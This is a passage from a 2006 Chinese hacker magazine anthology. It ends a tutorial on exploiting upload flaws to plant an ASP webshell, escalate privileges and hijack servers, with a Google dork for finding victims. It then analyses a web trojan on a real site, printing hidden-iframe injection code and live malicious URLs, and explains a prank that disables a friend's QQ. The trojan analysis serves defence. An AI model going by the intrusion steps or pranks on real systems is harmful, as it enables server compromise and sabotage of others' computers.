# 非安全黑客手册合订本2006年①②季第二部分

---

asp 等几个文件前点上勾，点击“开始检测”按钮。然后我们就可以看到检测结果框内有几个上传漏洞的页面，如图6所示。

然后对着这些页面点右键“上传”，程序自动转入上传工具界面。先尝试利用动网类上传漏洞工具“提交”，如果不成功，再尝试“动易类”，如此而已，直到显示上传成功为止，如图7所示。







接着，我们用 IE 再次检测 asp 木马是否能够运行，如图8所示。

获得 webshell 后，我们可以利用我在《WEB站点ASP注入攻击攻略》中提到的方法提升权限，最终控制服务器，也可以通过网站挂马的被动攻击形式获得更多的肉鸡，总之玩法有很多。

我还要再强调一次，我们学习黑客技术是要提高自己的能力，可不要做什么坏事哦。

> 【文中涉及到的 webhunter，已经收录在光盘中】

【编辑感言】在 Google 中简单地输入 inurl:upfile.asp，就能获得大量肉鸡。如果换成搜索数据库的后缀名，你就能获得一个网站的命脉。只要灵活应用，Google 就是黑客们的忠实助手。

由于 MS06-001 漏洞的出现，网页木马又活跃了起来。许多菜鸟开始了反黑的学习，本期栏目和反黑现场一同为大家献上反黑大餐，还等什么，开始享受吧\~\~\~

## 抽丝剥茧，一步一步教你分析网页木马（上）

- 从本文你可以学到：
- 分析网页木马的一般步骤
- 如何下载特定页面及搜索 iframe 来查找网页木马网址
- 自动和手动解密加密的字段

最近，我得到线报：中国科技信息网被别人挂上木马了！正好，挺长时间也没玩马了，就拿这个小马玩玩吧！

由于是小道消息，不知道那个网站是否真的有木马，但是宁可信其有，不可信其无，因此不能直接登录那个网站，否则很可能中招，我采取的是用 FlashGet 下载网页文件的方法来分析的。

打开 FlashGet 工具，直接把中国科技信息网的网址输入到 FlashGet 的新建下载任务中的网址栏，就可以把网页文件下载下来，如图1所示。

下载后使用 UltraEdit 工具来分析网页里面的代码，当然使用记事本也可以，只是个人习惯问题……我觉得 UltraEdit 里面的语法高亮功能很实用。一般地讲，现在网页里面种植木马，都是在网页代码里插入 `<iframe src="www.***.com" width="0" height="0"></iframe>` 这样的 iframe 框架，然后引用一个恶意网址如 www.***.com，这个网址中包含有木马文件，再把这个框架的宽度和高度都设置为 0，这样这个框架在网页中是显示不出来的。所以查看这个网页是否被别人种植木马了，最快捷的方法就是在网页代码里面查找 iframe 关键词。



利用 UltraEdit 的查找功能来查找 iframe 关键字！查找的快捷键是：Alt + F3，如图2所示。

到现在为止，我们已经确信中国科技信息网确实是有木马了，但是这个木马文件的绝对地址究竟在哪里呢？别着急，随我一步一步地来！

大家可能已经注意到 iframe 框架中的 http://www.liu775.com/q2/index.htm 这个网址了吧！没错，这个就是一个包含木马的恶意网址。下面，我们还用 FlashGet 工具，把 http://www.liu775.com/q2/index.htm 这个文件下载下来，如图6所示。









下载之后再用 UltraEdit 打开该网页文件，发现里面就有一行语句 `<script language="javascript" src="ah.js"></script>`，如图7所示。







大家注意到里面的文件 ah.js 了吗？原来这个“黑客”使用的是相对路径，是相对于 http://www.liu775.com/q2/index.htm 这个网址的。经过简单的分析，我们可以试一试 http://www.liu775.com/q2/ah.js 这个网址，看看能不能下载下来什么东西。好，用 FlashGet 下载试一试！

果然！又下载了一个 ah.js 文件！再次用 UltraEdit 打开这个文件，如图8所示。

从这个可以看出，ah.js 文件是经过了 unescape 加密了的。要想把真正的木马文件下载下来，需要解密！这里有两种解密方法：

利用 Hao123 网站的在线解密功能自动解密，在线解密网址：http://www.hao123.com/haoserver/jmjm.htm

我们在这里使用中间的“网页解密”功能。把 ah.js 文件中的代码全部复制到解密对话框中，然后点击还原就可以了，如图9所示。解密后的代码如图10所示。





手动解密方法：其实对于 unescape 加密程序，手动解密也很简单，大家只要把 `%2f1.js` 这句代码给解密了就可以了，其他的加密字段是没有用的。那么 `%2f` 是什么意思？请大家查查 ASCII 代码表，原来是 `/` 斜杠的意思。那么，下一步要下载的木马文件的网址就是 http://www.liu775.com/q2/1.js，快用 FlashGet 下载吧！

一天，收到一封电子邮件，打开之后却发现是一堆乱码，于是我尽其所能用遍各种中文平台软件去读这个邮件，仍然无济于事。诧异之际，为了不丢面子，我花了一个上午的时间去翻译这封邮件，人已是头昏眼花、四肢无力。

谁知，第二天又收到同一个发信人的信，问我为何还不回信，只好硬着性子，更详细地翻译这篇乱码邮件。正当我无可奈何又灰心之际，又收到一封邮件，内容是：“愚人节快乐！”

## 整蛊三式

- 了解类标识、NTFS 数据流等知识
- 利用 Windows 自身的一些特性来整蛊

知道吗？Windows 中其实藏着不少小问题，虽然不会对系统造成什么损害，称不上是 Bug；但如果利用好的话，用来整蛊是绰绰有余的。在玩闹同时还能深入了解一点儿系统知识。开个小玩笑，偷偷把朋友的电脑动点儿手脚，看他抓狂又无措的样子，哈哈，整你没商量！

### 一、网络程序你别用

我们只需要用一个文件夹，就能阻止几乎所有需要访问网络的程序运行。举一个例子，比如我们想让对方不能使用 QQ，只要进入他的 QQ 安装目录，在里面新建一个文件夹，把它命名为 ws2_32.dll，然后再运行一下 QQ，看，出现了如图1所示的提示，QQ 再也打不开了。注意，这个文件夹必须要与打开的应用程序在同一个目录才有效。



图1 建立文件夹后 QQ 无法使用了

为什么会出现这个问题呢？这是因为 Windows 操作系统在加载动态链接库的时候，会首先在应用程序当前的目录进行搜索，如果没有再搜索系统目录。而在 Windows 中，目录和文件作为同级处理。而网络通讯程序必须要调用的 Winsock 一系列 API 是封装在 ws2_32.dll 中的，这样就导致了程序在加载 ws2_32.dll 时产生异常而退出了。

